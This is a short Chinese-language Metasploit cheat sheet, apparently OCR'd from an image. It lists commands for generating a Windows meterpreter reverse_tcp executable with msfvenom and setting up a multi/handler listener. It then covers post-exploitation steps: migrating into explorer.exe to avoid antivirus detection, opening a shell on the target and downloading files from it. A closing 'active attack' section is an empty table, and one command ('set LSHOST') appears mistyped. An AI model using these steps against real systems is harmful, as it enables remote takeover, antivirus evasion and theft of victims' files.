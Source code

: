 # 示例

| **使用**                                                     |                                                    |
| ------------------------------------------------------------ | -------------------------------------------------- |
| msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe > shell.exe | 生成木马文件，放到靶机上                           |
| msfconsole                                                   | 打开msf                                            |
| use exploit/multi/handler                                    | 使用模块                                           |
| set payload windows/x64/meterpreter/reverse_tcp              | 设置payload                                        |
| show options                                                 | 查看需要配置的信息                                 |
| set LSHOST                                                   | 设置监听端IP                                       |
| sysinfo                                                      | 查看监听机器信息                                   |
| exploit                                                      | 开始监听                                           |
|                                                              |                                                    |
| **成功监听后shell命令**                                      |                                                    |
| background                                                   | 保存监听会话，这样可以使用其他的模块对靶机进行攻击 |
| sessions -l (1)                                              | 列出保存的会话，回到会话输入序号即可，如1          |
| sysinfo                                                      | 查看靶机的信息，操作系统版本等                     |
| ps                                                           | 查看进程                                           |
| migrate 2840(explorer.exe桌面进程)                           | 牵引进程，不容易别杀毒软件发现                     |
| getlwd                                                       | 查看攻击机的目录                                   |
| getwd                                                        | 查看靶机的目录                                     |
| ls                                                           | 查看靶机当前目录下的文件                           |
| shell                                                        | 到靶机的cmd下                                      |
| 在shell下使用命令创建文件echo test123123 > test.txt          | 在目录下创建一个test.txt 内容为test123123          |
| download test.txt /root/kali                                 | 下载到攻击机的root目录                             |

# 主动攻击

| windows蓝屏 |      |
| ----------- | ---- |
|             |      |
|             |      |
|             |      |
|             |      |
|             |      |
|             |      |
|             |      |
|             |      |
|             |      |
